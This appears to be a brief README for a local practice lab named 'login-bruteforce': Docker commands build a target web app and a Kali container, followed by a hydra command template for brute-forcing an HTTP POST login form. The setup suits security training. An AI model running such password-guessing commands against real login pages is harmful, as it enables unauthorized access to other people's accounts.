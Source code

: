 # login-bruteforce

docker build -t login-bruteforce .
docker run -d -p 8080:80 login-bruteforce

Kali:
docker run -it --name kalilinux --network=host fabiosantos/kalilinux

hydra -l USERNAME -P LISTA URL http-post-form "URL:username=^USER^&password=^PASS^:S=302"